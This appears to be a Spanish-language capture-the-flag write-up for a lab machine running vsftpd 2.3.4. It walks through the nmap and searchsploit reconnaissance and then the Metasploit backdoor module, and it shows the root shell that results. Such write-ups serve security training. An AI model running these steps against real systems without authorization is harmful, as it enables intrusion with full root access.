








# Writeup - vsftpd 2.3.4 Backdoor

## Reconocimiento

### 1. Comprobamos conectividad con la máquina

```bash
ping -c 4 172.17.0.2
```



---

### 2. Escaneo de puertos con Nmap

```bash
sudo nmap --open -sV -sC 172.17.0.2
```



Vemos que el puerto **21/tcp** está abierto con la versión **vsftpd 2.3.4**.

---

### 3. Búsqueda de exploits con Searchsploit

```bash
searchsploit vsftpd 2.3.4
```



Encontramos dos entradas: un exploit manual y un módulo de Metasploit para **Backdoor Command Execution**.

---

## Explotación

### 4. Abrimos Metasploit

```bash
msfconsole
```



### 5. Buscamos el módulo de vsftpd

```bash
search vsftpd 2.3.4
```



Vemos el módulo `exploit/unix/ftp/vsftpd_234_backdoor`. Lo seleccionamos:

```bash
use 0
```



---

### 6. Configuramos las opciones

```bash
options
set RHOSTS 172.17.0.2
```



Solo necesitamos configurar el **RHOSTS** con la IP de la máquina objetivo.

---

### 7. Lanzamos el exploit

```bash
exploit
```



Obtenemos una shell como usuario **root**:

```
uid=0(root) gid=0(root) groups=0(root)
```

---

## Resumen

| Campo | Valor |
|---|---|
| IP objetivo | 172.17.0.2 |
| Puerto | 21/tcp (FTP) |
| Servicio | vsftpd 2.3.4 |
| Vulnerabilidad | Backdoor Command Execution |
| Módulo Metasploit | `exploit/unix/ftp/vsftpd_234_backdoor` |
| Acceso obtenido | root |
